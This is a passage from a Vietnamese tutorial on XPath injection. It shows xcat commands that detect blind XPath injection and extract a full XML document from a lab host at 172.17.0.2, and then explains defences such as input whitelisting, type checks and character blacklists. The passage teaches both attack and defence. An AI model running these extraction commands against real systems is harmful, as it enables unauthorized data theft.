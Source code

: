 **Giải thích:**
- Tham số `q` là tham số dễ bị tổn thương
- `--true-string='!No Result'` chỉ định phản hồi không chứa chuỗi "No Result" khi truy vấn có kết quả

**Khai thác Blind XPath Injection:**
```bash
xcat detect http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM
```

**Giải thích:**
- `-m POST`: Gửi payload dưới dạng POST request
- `--true-string=successfully`: Phản hồi chứa "successfully" khi truy vấn trả về dữ liệu

**Trích xuất toàn bộ tài liệu XML:**
```bash
xcat run http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM
```

## 7.2. Phòng chống XPath Injection

Không giống SQL, nhiều ngôn ngữ lập trình và thư viện không cung cấp prepared statements hoặc stored procedures cho XPath. Do đó việc kiểm tra và làm sạch dữ liệu đầu vào là phương pháp phòng chống hiệu quả nhất.

### Các phương pháp phòng chống:

**1. Kiểm tra và làm sạch dữ liệu đầu vào:**
- Tất cả dữ liệu từ người dùng phải được coi là không đáng tin cậy
- Kiểm tra dữ liệu trước khi đưa vào truy vấn XPath
- Sử dụng whitelist chỉ cho phép ký tự chữ và số:

```php
if (!preg_match('/^[a-zA-Z0-9]+$/', $_POST['username'])) {
    die("Invalid input!");
}
```

**2. Xác thực kiểu dữ liệu:**
```php
if (!ctype_digit($_GET['id'])) {
    die("Invalid ID!");
}
```

**3. Kiểm tra ngữ nghĩa dữ liệu:**
```php
$valid_options = ['fullstreetname', 'streetname'];
if (!in_array($_GET['f'], $valid_options)) {
    die("Invalid option!");
}
```

**4. Sử dụng blacklist (chặn ký tự đặc biệt):**
Chặn các ký tự điều khiển trong XPath:
- Dấu nháy (`'`, `"`)  
- Dấu gạch chéo (`/`)
- Ký tự đặc biệt (`@`, `=`, `*`) 
- Dấu ngoặc (`[`, `]`, `(`, `)`)
